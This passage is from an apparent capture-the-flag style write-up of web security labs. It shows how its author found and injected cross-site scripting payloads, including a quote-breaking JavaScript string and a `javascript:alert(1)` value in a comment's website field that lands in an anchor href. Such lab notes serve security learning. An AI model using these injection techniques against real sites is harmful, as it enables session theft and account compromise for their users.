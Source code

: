 ### Exp
Why we don't inject into 2nd place?
Payload: `\\';alert(123);//` or `';alert(123);//`
:::spoiler Success Screenshot
![](https://i.imgur.com/IOBX0oq.png)

![](https://i.imgur.com/PKUYHuo.png)
:::


---

## Lab: Stored XSS into anchor `href` attribute with double quotes HTML-encoded
* Description: This lab contains a stored cross-site scripting vulnerability in the comment functionality.
* Goal: To solve this lab, submit a comment that calls the `alert` function when the comment author name is clicked.

### Recon
1. Find the place to inject
According to the description, we know that the comment place has a injection place.
Comment: `abc`
Name: `aaa`
Email: `a@gmail.com`
Website: `https://test.sbkblog.online`
![](https://i.imgur.com/6utKpWm.png)

2. How about script tag input
Comment: `<script>alert(123)</script>`
![](https://i.imgur.com/TWJV4F3.png)
Seems not working here

3. How about inject into website place?
Website: `https://test.sbkblog.online"<script>alert(123)</script>//`
![](https://i.imgur.com/kfP6IeN.png)
Still not working here

4. <font color="FF0000">According to **Lab: DOM XSS in jQuery anchor `href` attribute sink using `location.search` source**</font>
We know that we can inject XSS in `href` attribute by using the payload: `javascript:alert(1)`

### Exp
Website Payload: `javascript:alert(1)`
![](https://i.imgur.com/u6COY4h.png)

:::spoiler Success Screenshot
![](https://i.imgur.com/Qj21zuC.png)
:::
